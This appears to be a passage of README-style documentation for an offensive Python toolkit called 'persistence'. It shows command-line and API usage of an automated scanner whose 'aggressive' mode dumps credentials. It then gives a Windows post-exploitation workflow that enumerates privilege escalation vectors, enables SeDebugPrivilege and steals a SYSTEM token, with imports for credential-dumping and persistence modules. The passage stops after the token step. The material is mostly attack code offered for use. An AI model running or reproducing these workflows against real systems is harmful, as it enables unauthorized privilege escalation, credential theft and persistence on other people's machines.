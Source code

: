 **Usage:**

```bash
# Basic scan (privesc enumeration only)
python persistence/automated_scanner.py

# Aggressive scan (includes credential dumping)
python persistence/automated_scanner.py --aggressive

# Brief report
python persistence/automated_scanner.py --aggressive --brief

# Export results
python persistence/automated_scanner.py --aggressive --export results.json
```

**Python API:**

```python
from persistence.automated_scanner import AutomatedScanner

scanner = AutomatedScanner(aggressive=True)

# Run full scan
results = scanner.run_full_scan()

# Generate report
print(scanner.generate_report(include_full_details=True))

# Export results
scanner.export_results('scan_results.json')

# Access specific results
print(f"Privesc vectors found: {results['privesc_vectors']}")
print(f"Credentials found: {results['credentials_found']}")

# Get recommendations
for rec in results.get('recommendations', []):
    print(f"[{rec['priority']}] {rec['action']}")
```

## Complete Workflows

### Workflow 1: Windows Post-Exploitation

```python
from persistence.privilege_escalation import PrivilegeEscalation
from persistence.credential_dumping import CredentialDumper
from persistence.token_manipulation import TokenManipulation
from persistence.windows_persist import WindowsPersistence

# Step 1: Enumerate privilege escalation vectors
privesc = PrivilegeEscalation()
vectors = privesc.enumerate()

print(f"[+] Found {len(vectors)} privesc vectors")

# Step 2: Attempt token manipulation if we have SeImpersonatePrivilege
token_manip = TokenManipulation()
token_manip.enable_privilege('SeDebugPrivilege')
h_system_token = token_manip.steal_system_token()

if h_system_token:
    print("[+] Obtained SYSTEM token!")

```